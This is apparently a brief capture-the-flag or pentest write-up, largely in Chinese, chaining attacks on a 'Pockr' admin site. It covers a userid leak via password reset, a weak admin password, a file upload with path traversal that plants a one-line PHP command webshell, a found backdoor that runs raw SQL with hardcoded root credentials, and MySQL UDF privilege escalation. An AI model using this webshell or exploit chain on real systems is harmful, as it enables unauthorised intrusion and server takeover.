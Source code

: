 POST /Admin_Pockr_login/forgorpwd_action
email=admin@pockr.com
get {"message":"true","email":"admin@pockr.com","userid":"BB568A04-8159-964E-CE49-D68AC10F8101"}
/assets/js/api.js
```js
define(function (require, exports, module) {
    var $ = require('jquery');
    var url='User_Pockr_Api/UserInfo';
    var userid=$("#userid").val();
    $.post(url, { userid: userid }, function (resultJSONObject) {
        if (resultJSONObject.message) {
            $("$userinfo").append(resultJSONObject.username);
        } else {
            alert("error");
        }
    }, "json");
})
```
POST /User_Pockr_Api/UserInfo
userid=BB568A04-8159-964E-CE49-D68AC10F8101
get {"message":"true","email":"admin@pockr.com","username":"sunzheyi"}
弱口令 密码:1q2w3e
/Admin_Pockr_home/add_menu_action 文件上传
设置 subSysFolder ../../.
webshell
```php
<?php
@system($_POST['cmd']);
?>
```
服务器没有安装mysql 找到了别人留下来的后门 82f616c83ca2df8a7b2edb27a5bac153.php
```php
<?php
        $mysql_server_name='sql05.ciadmin.com';
        $mysql_username='root';
        $mysql_password='mysql_2018';
        $mysql_database='five_admindb';
        $mysqli = mysqli_connect($mysql_server_name,$mysql_username,$mysql_password,$mysql_database);
        if (mysqli_connect_error()) {
                die('Connect Database Error');
        }
        $sql = $_GET['sql'];
        $q = mysqli_query($mysqli,$sql);
        var_dump($q->fetch_array());
        mysqli_close($mysqli);
?>
```
数据库里没东西 mysql版本5.7.21 用户root@172.18.0.2
最终要求获得mysql数据库服务器的权限 尝试udf提权
系统环境 Linux x86_64 plugin文件夹路径 /usr/lib/mysql/plugin/
偷鸡成功 原来加载的函数没有被drop




